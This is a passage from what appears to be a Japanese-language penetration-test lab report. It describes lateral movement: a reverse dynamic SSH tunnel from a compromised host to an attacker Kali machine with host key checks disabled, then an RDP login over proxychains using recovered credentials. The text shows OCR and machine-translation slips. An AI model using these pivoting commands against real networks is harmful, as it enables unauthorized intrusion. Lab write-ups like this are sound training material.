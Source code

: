 Johnは、SSHを使った逆ダイナミックポートフォワーディングを確立することで、横方向の動きを開始しました。まず、彼は新しいSSH鍵のペアを生成し、それをKali VMのauthorized_keysファイルに追加しました。そして、SSHポート転送コマンドを1つ発行するだけでよかったのです。   
```
ssh-keygen -t rsa -N '' -f ~/. ssh/key
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -I key kali@192.168.119.164
```
ダイナミックリバーストンネルが確立されたので、Johnはポート1080を使用するために/etc/proxychains.confを編集するだけでよかったのです。   
**5.2 家禽類 - 10.5.5.20**   
**5.2.1 初期アクセス - RDPログイン**   

手元にある証明書と逆方向のトンネルを確立し、Johnはproxychainsを使用してRDPセッションに接続し、プロンプトが表示されたら証明書を受け入れ、その後取得したパスワードを入力しました。   
```
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard   
```
5.2.2 ポストエクスプロイテーション    
ローカルプルーフのスクリーンショット     
![4a46298d80c036623017e2c731b939d2.png](../_resources/4a46298d80c036623017e2c731b939d2.png)
